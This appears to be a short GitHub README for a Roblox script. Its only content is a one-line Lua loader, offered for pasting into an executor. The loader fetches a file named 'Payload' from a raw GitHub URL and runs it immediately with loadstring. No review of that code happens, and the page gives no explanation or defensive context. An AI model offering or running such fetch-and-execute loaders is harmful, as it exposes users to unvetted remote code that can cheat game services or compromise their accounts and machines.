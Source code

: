 # Script
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/NotH4xor/Bahasf/main/Loader/Payload"))()
```
